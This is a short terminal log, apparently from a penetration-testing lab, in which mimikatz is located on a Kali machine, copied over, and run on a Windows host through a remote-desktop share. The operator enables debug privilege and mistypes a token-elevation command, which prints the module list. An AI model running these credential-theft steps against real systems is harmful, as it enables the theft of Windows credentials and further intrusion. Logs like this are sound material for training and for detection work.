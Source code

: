 ```html
```

 Completed

```
┌──(kali㉿kali)-[~]
└─$ locate mimikatz.exe
/home/kali/Downloads/learning_kerberos/mimikatz.exe
/usr/share/windows-resources/mimikatz/Win32/mimikatz.exe
/usr/share/windows-resources/mimikatz/x64/mimikatz.exe
                                                                                                              
┌──(kali㉿kali)-[~]
└─$ cd /tmp                      
                                                                                                              
┌──(kali㉿kali)-[/tmp]
└─$ cp /home/kali/Downloads/learning_kerberos/mimikatz.exe mimikatz.exe
                                                                                                              
┌──(kali㉿kali)-[/tmp]
└─$ ls                 
burp12619999519564320901.tmp
burp1764061989733424759.tmp
CVE-2021-1675
hsperfdata_kali
mimikatz.exe


C:\Windows\system32>\\tsclient\share\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 May 19 2020 00:48:59
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # toke::elevate
ERROR mimikatz_doLocal ; "toke" module not found !

        standard  -  Standard module  [Basic commands (does not require module name)]
          crypto  -  Crypto Module
        sekurlsa  -  SekurLSA module  [Some commands to enumerate credentials...]
        kerberos  -  Kerberos package module  []
       privilege  -  Privilege module
         process  -  Process module
         service  -  Service module
         lsadump  -  LsaDump module
              ts  -  Terminal Server module
           event  -  Event module
            misc  -  Miscellaneous module
           token  -  Token manipulation module
           vault  -  Windows Vault/Credential module
     minesweeper  -  MineSweeper module
             net  -
           dpapi  -  DPAPI Module (by API or RAW access)  [Data Protection application programming interface]
       busylight  -  BusyLight Module
          sysenv  -  System Environment Value module
             sid  -  Security Identifiers module
             iis  -  IIS XML Config module
             rpc  -  RPC control of mimikatz
            sr98  -  RF module for SR98 device and T5577 target
```